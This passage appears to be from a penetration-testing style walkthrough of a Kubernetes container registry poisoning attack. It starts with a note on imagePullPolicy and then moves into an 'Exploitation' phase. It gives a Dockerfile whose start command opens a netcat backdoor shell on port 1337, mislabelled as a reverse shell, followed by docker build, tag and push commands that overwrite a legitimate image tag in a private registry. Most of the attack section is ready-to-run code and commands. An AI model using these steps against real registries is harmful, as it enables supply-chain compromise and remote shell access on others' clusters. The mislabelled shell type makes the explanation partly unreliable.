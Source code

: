 **Why:**  The `imagePullPolicy` dictates when Kubernetes attempts to pull a new image. If set to `IfNotPresent`, it will only pull the image if it's not already present locally.  An attacker who can pre-populate the local image cache with a malicious image could potentially bypass registry checks (this is less effective if images are always pulled remotely).

**Expected Output:** Values for `imagePullPolicy` for each deployment and statefulset.

**What to Look For:** `IfNotPresent` values that, in combination with other vulnerabilities, could exacerbate the impact.

**Phase 2: Exploitation - Demonstrating a Registry Poisoning Attack**

**Assumptions:**

*   We have identified an image name used by the cluster: `your-private-registry.com/my-app:v1`.
*   We have discovered or gained access that allows us to push images to `your-private-registry.com`.

**Step 4: Create a Malicious Container Image**

```dockerfile
FROM ubuntu:latest

# Install a backdoor (example: netcat)
RUN apt-get update && apt-get install -y netcat

# Expose a port for the backdoor
EXPOSE 1337

# Command to execute when the container starts
CMD ["/bin/bash", "-c", "nc -lvp 1337 -e /bin/sh"]
```

**Explanation:** This Dockerfile creates a simple Ubuntu-based image with `netcat` installed and configured to listen on port 1337, providing a reverse shell.  **This is a simplified example; a real-world attack would likely involve more sophisticated malware.**

**Why:** This image represents the malicious payload that will be injected into the registry.

**Step 5: Build and Tag the Malicious Image**

```bash
docker build -t malicious-app .
docker tag malicious-app your-private-registry.com/my-app:v1
```

**Explanation:**
*   `docker build -t malicious-app .`: Builds the image from the Dockerfile and tags it as `malicious-app`.
*   `docker tag malicious-app your-private-registry.com/my-app:v1`:  Tags the `malicious-app` image with the same name and tag as the legitimate image being used by the cluster (`your-private-registry.com/my-app:v1`). **This is the core of the poisoning attack.**

**Why:** By using the same name and tag, we are preparing to overwrite or replace the original image in the registry.

**Step 6: Push the Malicious Image to the Registry**

```bash
docker push your-private-registry.com/my-app:v1
```
